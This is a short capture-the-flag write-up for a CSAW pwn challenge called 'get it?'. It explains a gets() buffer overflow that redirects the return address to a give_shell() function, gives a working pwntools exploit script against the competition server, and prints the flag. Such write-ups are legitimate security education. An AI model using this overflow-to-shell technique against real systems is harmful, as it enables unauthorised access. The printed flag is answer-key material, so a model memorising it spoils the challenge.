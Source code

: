 ## get it? 50 (pwn)

### Solution

use `gets()` to overwrite return address to `give_shell()`

### Exploit

```python
#!/usr/bin/env python3
from pwn import *

context(arch="amd64")

r = remote("pwn.chal.csaw.io", 9001)
b = ELF("get_it")

r.sendline(b"a" * 40 + p64(b.symbols[b"give_shell"]))
r.interactive()
```

### Flag

```
flag{y0u_deF_get_itls}
```
